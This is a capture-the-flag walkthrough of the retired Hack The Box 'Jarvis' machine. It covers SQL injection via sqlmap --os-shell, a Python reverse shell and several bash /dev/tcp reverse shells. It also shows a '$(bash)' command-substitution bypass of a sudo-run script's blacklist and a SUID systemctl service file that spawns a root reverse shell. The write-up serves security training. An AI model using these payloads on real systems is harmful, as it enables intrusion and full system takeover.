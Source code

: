 # Hack The Box - Jarvis walkthrough
![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/jarvis.png?raw=true)

This walkthrough is about the retired Jarvis machine of Hack The box. </br>
It is a Linux based machine. </br>
This machine has a static IP address <10.10.10.143> </br>
It was a nice bit easy machine. </br>
</br>
You have to found **user.txt** and **root.txt** flag. </br> 

## Penetration Methodology

* **Scanning**
  * open ports and services
* **Enumeration**
  * Enumerating the website about vulnerablities
* **Exploitation**
  * SQLI
  * exploitation using sqlmap
  * os-shell with sqlmap
  * machine access with Reverse-shell
* **Post Exploitation**
  * getting user access
  * privelage escalation from user to root
  
Now start pentesting the **Jarvis** machine. </br>

## Checking for open ports and services

We used **nmap** for checing the open ports and what services are running.
![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/nmap.png)

As we can see that port **22** and **80** are open.

**Now start enumerating the website**

When we reach the website we got a page like this </br>
![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/page.png)

## Enumerating the Website

**While enumerating the website after some time we found a page room.php** </br>

![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/sql_vul_room.png)

**This seems to be sql vulnerable** --> `<10.10.10.143/room.php?cod=1>` 

## Exploitation using sqlmap

Then we tried **sqlmap** with **--os-shell**
**using this** 
* `sqlmap -u http://10.10.10.143/room.php?cod=1 --os-shell`

![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/sqlmap_1.png)

And we got the shell

![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/sql_1.png)

Now we can use any reverse shell to get access of the machine

**I have used the python reverse shell**

Simply execute the reverse shell and also start the listener </br>

* `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<your ip>",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

**We got the shell but it is not the proper user**

![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/conn.png)

Now we are www-data user so we enumerate for **user.txt** flag

![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/enu_ww.png)

As we can see that only root and pepper user has privelages to read **user.txt** </br>
So we have to escalate our privelage to **pepper** user.

## Post Exploitation

So after some enumerating I look into **sudoers file**

![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/w_perm.png)

As we can see that **www-data** can run **/var/www/Admin-Utilities/simpler.py** </br>
with **pepper** user permission.

So we go through the **/var/www/Admin-Utilities/simpler.py** python file </br>
and in that we can see a **exec_ping** function and it looks something suspicious for privelage escalation to **pepper**.

![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/ping.png)

As there are some blacklist symbols but **$** symbol is not blacklisted. </br>

So we simply run 
* ` sudo -u pepper /var/www/Admin-Utilities/simpler.py -p `
with **-p** which is ping option

Then it pop up with **Enter an IP** option </br>
There use the non-blacklisted symbol with bash command
* ` $(bash) `

![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/pepper_shell.png)

**We got the pepper user** </br>

But we are not able to run any command so we try to get a reverse shell from **pepper** user </br>
and also start a listener

So I simply run a bash reverse shell command 
* `bash -i >& /dev/tcp/<your ip>/1234 0>&1`

And we got the new **pepper** user shell
Then we enumerate ffor **user.txt**
* `ls -al`
* `cat user.txt`

![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/user.png)

Now we have to read our **root.txt** flag </br>
So for that we have to escalate our privelage to **root**.

So firstly we check for **SUID bit SET**
* `find / -perm -u=s -type f 2>/dev/null`

![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/suid.png)

Here we find **/bin/systemctl** service running with **root** permission </br>

* As Systemctl is a systemd utility that is responsible for Controlling the systemd system and service manager.

So we make a new service named shell.service </br>
	
```
[Unit]
Description=hacking articles 
[Service]
Type=simple
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/<your ip>/8888 0>&1'
[Install]
WantedBy=multi-user.target
```

Now download that service file from machine to **Jarvis** machine </br>
Now enable the service
* /bin/systemctl enable /home/pepper/shell.service
* /bin/systemctl start shell

![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/ena.png)

Now start the listener again

![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/root.png)

**We got the root.txt flag**
This is very good machine and I learn a lot of new things.

Author: Hardik Chugh
